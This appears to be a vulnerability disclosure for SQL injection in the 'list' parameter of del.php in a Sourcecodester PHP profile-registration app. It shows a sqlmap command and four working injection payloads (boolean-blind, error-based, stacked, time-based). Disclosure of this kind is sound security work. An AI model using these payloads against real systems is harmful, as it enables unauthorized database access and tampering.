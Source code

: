 # SQL Injection vulnerability was discovered from Sourcecodester Profile Registration without Reload/Refresh 1.0 (del.php)

**Affected Project**: Profile Registration without Reload/Refresh 1.0

**Official Website**: https://www.sourcecodester.com/php/17587/profile-registration-without-reloadrefresh-using-ajax-php-and-mysql-source-code.html

**Version**: 1.0

**Related Code file**: del.php

**Injection parameter**: GET parameter 'list' is vulnerable.

## Demonstration

Below is Profile Registration without Reload/Refresh 1.0:

![index](https://github.com/user-attachments/assets/7475fe84-3943-4b50-9929-625bc27582cf)

Below is admin page. We can see there is a delete feature to it:

![admin-php](https://github.com/user-attachments/assets/babd4ca6-685a-4f73-9554-5fe801da89f9)

Let's try deleting one of the entry:

![Screenshot from 2024-09-22 15-17-22](https://github.com/user-attachments/assets/b61c28b2-27dd-4e83-8fd8-a8d00c4eadab)


We will intercept the delete (del.php) traffic using Burp Suite:

![Screenshot from 2024-09-22 15-18-26](https://github.com/user-attachments/assets/19d5ceec-899b-47d9-a123-126a1796db19)

After saving the intercepted request as txt file, we will run sqlmap against it: `sqlmap -r del.req --batch`

![image](https://github.com/user-attachments/assets/1ea8910d-7617-4454-9925-3c0b443e4328)

sqlmap identifies GET parameter 'list' as vulnerable. Below is the payload used:

---
Parameter: list (GET)
    Type: boolean-based blind
    Title: MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: list=1' AND EXTRACTVALUE(6463,CASE WHEN (6463=6463) THEN 6463 ELSE 0x3A END)-- jUPW

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: list=1' AND GTID_SUBSET(CONCAT(0x7176786271,(SELECT (ELT(3483=3483,1))),0x71627a6271),3483)-- xwxz

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: list=1';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: list=1' AND (SELECT 7323 FROM (SELECT(SLEEP(5)))ELsa)-- jKqa
---


